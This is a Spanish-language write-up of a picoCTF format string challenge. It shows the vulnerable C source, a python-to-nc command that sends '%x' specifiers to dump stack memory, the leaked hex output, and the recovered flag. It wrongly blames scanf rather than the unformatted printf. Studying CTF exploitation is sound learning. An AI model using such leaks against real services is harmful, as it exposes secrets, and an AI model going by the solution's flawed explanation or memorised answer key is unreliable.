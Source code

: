 ## Objetivo
Story telling class 1/2I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/91/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/91/vuln.c). And connect with it using:`nc saturn.picoctf.net 57573`
## Solución
Revisamos el código.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}

```
Vemos que el código tiene un scanf, este scanf no formatea la salida, al no formatearla asume que es una cadena. Enviamos %x%x%x%x%x%x%X%x%x%x%x%x%x%x%x%x%x%X%x%x%x%x para ver  la memoria en hexadecimal.
```bash
                                                                                 
┌──(kali㉿kali)-[~/picoCTF/binexp1]
└─$ python3 -c 'print("%x"*60)' | nc saturn.picoctf.net 54798
Tell me a story and then I'll tell you one >> Here's a story - 
ffd67530ffd675508049346782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825ec92dd00ec7b2ab06f6369707b4654436b34334c5f676e3167346c466666305f3474535f315f6b63623261317d613235fbad200090682f000ec969990804c00080494100804c000ffd6761880494182ffd676c4ffd676d00ffd67630

```

La convertimos con cyberchef.
![[Pasted image 20241111105024.png]]

`picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}`
## Notas Adicionales

## Referencias
